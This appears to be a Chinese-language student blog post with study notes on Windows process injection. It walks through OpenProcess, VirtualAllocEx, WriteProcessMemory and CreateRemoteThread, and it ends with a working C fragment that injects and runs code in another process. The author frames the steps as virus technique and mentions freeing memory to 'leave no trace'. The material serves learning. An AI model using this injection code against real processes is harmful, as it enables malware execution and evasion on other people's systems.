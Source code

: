 ```yaml
---
layout: post
title: "Windows下如何进行进程注入"
date: 2015-2-28 15:53
comments: true
tags: notes
---
```


上学期学了有关Windows程序底层方面的知识，学习到病毒的基本工作原理。好记性不如烂笔头，学完之余还是写点东西出来吧～
不过我也只是抛砖引玉，详细知识还是得自己多多钻研～

#首先打开进程

首先使用Win系统的[OpenProcess](https://msdn.microsoft.com/en-us/library/windows/desktop/ms684320(v=vs.85).aspx)API打开所要注入的进程。
使用参数是进程的PID，可以使用任务管理器查看进程的PID，打开成功之后返回程序的句柄。

#开辟内存空间

Win系统也提供了开辟内存空间的[VirtualAllocEx](https://msdn.microsoft.com/en-us/library/windows/desktop/aa366890(v=vs.85).aspx)API。
传入的参数包括进程句柄，开辟起始地址，开辟空间的大小，分配的数据类型，分配空间的权限。例如： `pRemoteCode = (PBYTE) VirtualAllocEx(hProcess, 0, dwSizeOfCode, MEM_COMMIT, PAGE_EXECUTE_READWRITE); `

#写入恶意代码

使用Win系统的[WriteProcessMemory](https://msdn.microsoft.com/en-us/library/windows/desktop/ms681674(v=vs.85).aspx)API向新开辟的内存空间写入数据。注意这里写入的是二进制数据，要考虑到各种API函数的寻址问题。

#执行注入的代码

微软照样还是提供了相关的[CreateRemoteThread](https://msdn.microsoft.com/en-us/library/windows/desktop/ms682437(v=vs.85).aspx)API，我们注意最后一个参数是输出而不是输入。

#获取执行的结果

如果要获取执行的结果，首先我们得等待线程的执行完成，使用[WaitForSingleObject](https://msdn.microsoft.com/en-us/library/windows/desktop/ms687032(v=vs.85).aspx)API.例： `WaitForSingleObject(hThread, INFINITE);`
然后再使用[GetExitCodeThread](https://msdn.microsoft.com/en-us/library/windows/desktop/ms683190(v=vs.85).aspx)API，得到返回的结果。

#释放开辟的空间

干了坏事得不留痕迹才行，回收自己开辟的空间，使用[VirtualFreeEx](https://msdn.microsoft.com/en-us/library/windows/desktop/aa366894(v=vs.85).aspx)API.

#关闭打开的进程

打开的进程也得关闭，使用[CloseHandle](https://msdn.microsoft.com/en-us/library/windows/desktop/ms724211(v=vs.85).aspx)API.

代码示例：

		    hProcess = OpenProcess(PROCESS_CREATE_THREAD 
		        | PROCESS_QUERY_INFORMATION
		        | PROCESS_VM_OPERATION 
		        | PROCESS_VM_WRITE 
		        | PROCESS_VM_READ,
		        FALSE, PID);
		        
		    if (hProcess == NULL) {
		        printf("failed.\n"); 
		        return -1;
		    }   
		    printf("ok.\n");

		    printf("[I]: Allocating remote memory with size of 0x%08x ......", 
		        dwSizeOfCode);

		    pCodeRemote = (PBYTE) VirtualAllocEx(hProcess, 
		            0, 
		            dwSizeOfCode, 
		            MEM_COMMIT, 
		            PAGE_EXECUTE_READWRITE);		
		    if (pCodeRemote == NULL) {
		        printf("failed.\n");
		        CloseHandle(hProcess);
		        return -1;
		    }
		    printf("ok at 0x%08x.\n", pCodeRemote);

		    do_link_before_inj(pCodeRemote);
		    
		    printf("[I]: Writing code ......");
		    if (WriteProcessMemory(hProcess, 
		            pCodeRemote, 
		            pCode, 
		            dwSizeOfCode, 
		            &dwNumBytesXferred) == 0) {
		        printf("failed.\n");
		        VirtualFreeEx(hProcess, pCodeRemote,
		                dwSizeOfCode, MEM_RELEASE);
		        CloseHandle(hProcess);
		        return -1;
		    };
		    printf("ok (%d bytes were written).\n", dwNumBytesXferred);
		        
		    printf("[I]: Creating a remote thread ......");
		    hThread = CreateRemoteThread(hProcess, NULL, 0, 
		            (LPTHREAD_START_ROUTINE) pCodeRemote,
		            pCodeRemote, 0 , &dwThreadId);
		    if (hThread == 0) {
		        printf("failed.\n");
		        if ( pCodeRemote != 0 )	
		            VirtualFreeEx(hProcess, pCodeRemote, 0, MEM_RELEASE);
		        if ( hThread != 0 )			
		            CloseHandle(hThread);
		        return -1;
		    }
		    printf("ok.\n");
		 
		    printf("[I]: Waiting the remote thread ......");
		    WaitForSingleObject(hThread, INFINITE);
		    GetExitCodeThread(hThread, (PDWORD) &exitcode);
		    printf("exited with 0x%08X\n", exitcode);
		 
		    VirtualFreeEx(hProcess, pCodeRemote, 0, MEM_RELEASE);
		    CloseHandle(hProcess);